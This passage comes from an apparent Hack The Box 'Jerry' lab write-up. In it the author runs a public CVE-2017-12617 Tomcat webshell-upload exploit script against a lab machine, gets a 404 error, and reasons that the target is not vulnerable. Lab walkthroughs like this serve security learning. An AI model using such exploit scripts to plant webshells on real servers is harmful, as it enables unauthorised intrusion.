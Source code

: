 Now I knew this wasn't necessary, I changed my syntax, just providing the name `shell`. However, running it again with these options just gave me a 404 `resource is not available` error:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/jerry]
└─$ python2 42966.py -u http://10.10.10.95:8080 -p shell



   _______      ________    ___   ___  __ ______     __ ___   __ __ ______ 
  / ____\ \    / /  ____|  |__ \ / _ \/_ |____  |   /_ |__ \ / //_ |____  |
 | |     \ \  / /| |__ ______ ) | | | || |   / /_____| |  ) / /_ | |   / / 
 | |      \ \/ / |  __|______/ /| | | || |  / /______| | / / '_ \| |  / /  
 | |____   \  /  | |____    / /_| |_| || | / /       | |/ /| (_) | | / /   
  \_____|   \/   |______|  |____|\___/ |_|/_/        |_|____\___/|_|/_/    
                                                                           
                                                                           

[@intx0x80]


Uploading Webshell .....
$ id

Apache Tomcat/7.0.88 - Error report

 
HTTP Status 404 - /shell.jsp

type
 Status report
message
 
/shell.jsp

description
 
The requested resource is not available.

Apache Tomcat/7.0.88
```

I also tried navigating to it in browser at `http://10.10.10.95/shell.jsp`, and even tried `http://10.10.10.95/shell/shell.jsp` in case it went to that directory - but both of these also gave me a 404.

Looking at the [CVE details](https://access.redhat.com/security/cve/cve-2017-12617), the resource needs to not be in readonly mode, and allow `PUT` requests:

![](/assets/images/blogs/Pasted image 20210504132129.png)

This also states that it only affects Linux machines. So we may be barking up the wrong tree.

## Alternate Exploit
